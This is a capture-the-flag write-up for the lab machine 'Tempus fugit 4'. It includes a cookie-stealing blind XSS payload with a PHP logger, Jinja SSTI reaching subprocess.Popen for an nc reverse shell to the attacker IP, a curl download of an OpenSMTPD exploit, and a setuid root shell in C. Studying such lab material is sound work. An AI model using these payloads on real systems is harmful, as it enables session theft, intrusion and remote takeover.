 ```yaml
---
layout: post
title: Tempus fugit 4 writeup
date: 2019-02-10 10:00
---
```


## Nmap

![](images/fugit4/nmap.png)

This looks like a simple start, only two ports are open. We'll start our enumeration from port 80.

***

## HTTP

![](images/fugit4/website.png)

If we visit the website we find a really amazing website. The first thing I did was started `dirsearch` on it.

![](images/fugit4/dirsearch.png)

We can see there is a `/admin` path. When we visit that page we see some kind of custom management section.

![](images/fugit4/admin.png)

I started to look around and noticed there was a `request access` option which asked for your `firstname` and `lastname`. Now this seems fishy because if there was an `admin` system it wouldn't just allow anyone to `request` any kind of access.I started to look around the page and play with the different inputs.


After trying loads of things @DCAU told me that there was blind XSS in `Lastname` field. Also it wouldn't just show up, we will need some way to reflect the output. The thing about this XSS was that trying basic XSS payloads like `<script>alert('hack')</script>` might not show anything.

@DCAU figured out that we can right a script for stealing the cookie. First we made a script named `cookie.php` which had the following content

```php
<?php
header ('Location:http://192.168.177.130/admin');
$cookies = $_GET["c"];
$file = fopen('log.txt', 'a');
fwrite($file, $cookies . "\n\n");
?>
```

In this we are making a new file named `log.txt` which writes `cookies` in it. And to make this successful we are going to enter the following payload as `lastname`

```html
<svg onload=document.location='http://192.168.177.1/cookies.php?c='+document.cookie;>
```

You need to start `apache2` and keep that `cookie.php` file in `/var/www/html` directory of your attacking system. If all this is done correctly then after few minutes you'll see cookie in the `access.log`

![](images/fugit4/cookie.png)

Now we can use that cookie to login.

```
.eJwlz0tqAzEQBNC7aO1F_yS1fJlB6g8xhgRm7FXI3S0ItSsoePVbjjzj-ir31_mOWzkeXu6FCFRdBhuGRE-HYTYqWFZQSnCb0pvJalSxshES76rxkAVTwlBgTYOwnTbCGTLAO7Zk46FAjIyujc27A1FQio7MqeQqVG7FrjOP188zvrfHh822NoebzkSWNX0wos7Wqy_wHLCha-_eV5z_J6T8fQCgbT9g.XkRs9Q.nV5gIsT9fuCXGnEi2FdsHKseHuU
```

This was my cookie so I added that to the `storage` section of `developer tools` in `Firefox`. And then just clicked on the `Login` button and with that we'd be in.

![](images/fugit4/login.png)

Since now I was admin so the first thing I tried was `Shell` tabs but it shows `Don't think so!` error message. So the only interesting page was `logs` but the issue with that was it redirects you to `request access` page. 

But we can still read logs with the help of burp. Just start burp suite and capture the request to `Log` tabs and then forward the request once and you'll se a log portal.

![](images/fugit4/log-portal.png)

In this dropdown there were 3 option I selected the `adminsite` part(last option) and then again forwared the request using burp and that's when I was able to read the logs.

![](images/fugit4/admin-log.png)

But even in logs we don't find anything so I started to test with the cookies. In order to see anything you need to keep the log tabs opened.

Using a firefox addon named [`Cookie editor`](https://addons.mozilla.org/en-US/firefox/addon/edit-cookie/) I added a new section of cookie and started to add different payload which were base64 encoded. 

After few trials I found the correct vulnerability.

![](images/fugit4/SSTI.png)

For this my payload was `{{7*'7'}}` which returns `7777777` if jinja template is rendering with strings, meaning we can exploit this for SSTI.

I base64 encoded the following payload and send it in a a new section of cookie.

```
{{''.__class__.mro()[1].__subclasses__()}} 
```
If the request was sent without error then you'll see a huge output in the log file, these are all the classes.

![](images/fugit4/classes.png)

Now since we have all the classes we need to find the index of the `Subprocess.Popen` file so we can use that to get a get RCE which will give us reverse shell.

To be able to find the correct index I copied all the class in a file and opened that file in vim and ran the following command inside vim

```
%s/,/\r/g
```

This will seperate all the `,` into next line, save the file and then `grep` for `Popen`.

![](images/fugit4/grep.png)

We can see that it is on line `412` meaning index is 411 cause the first line was bogus in our file.

I then encoded the following payload and sent it the similar way as we did it before i.e by using cookie editor

```python
{{''.__class__.mro()[1].__subclasses__()[411]('mkfifo /tmp/jlbu; nc -nv 192.168.1.125 80 0</tmp/jlbu | /bin/sh >/tmp/jlbu 2>&1; rm /tmp/jlbu',shell=True,stdout=-1).communicate()}}
```

__NOTE__: Make sure to use lower ports like 80 or 443 to transfer any file or in reverse shell payload. Because when I tried to use 4444 or such ports it didn't worked.

This will give us reverse shell.

![](images/fugit4/reverse.png)

***

## Privilege escalation

I started to look around but didn't saw anything interesting. 

![](images/fugit4/services-listening.png)

We can see that the IP `10.13.37.1` is opened at port `25` which is for `SMTP` and since this was OpenBsd I knew it right away that it would be [OpenSMTP exploit](https://www.exploit-db.com/exploits/48051) which was recently discovered.

So I downloaded that exploit using the following command:

```bash
curl http://192.168.1.125:443/exp.py -o exp.py
```

The issue was I couldn't execute the `nc` reverse shell code via this. So I downloaded a `c` file which had the following code in it:

```c
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0);
}
```

Once it was downloaded I compiled it by running `gcc shell.c -o pwn` and then ran the following command

```bash
python3 /tmp/exploit.py 10.13.37.1 25 mofo.org 'chown root:wheel /tmp/pwn'
python3 /tmp/exploit.py 10.13.37.1 25 mofo.org 'chmod 4755 /tmp/pwn'
./pwn
```

This would give you rootshell.

![](images/fugit4/root-shell.png)

And then just read the root flag.

![](images/fugit4/root.png)

***

This was another amazing machine by @andreaz and @theart42. Thanks for that and also thanks to @DCAU for all the help.

***

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄


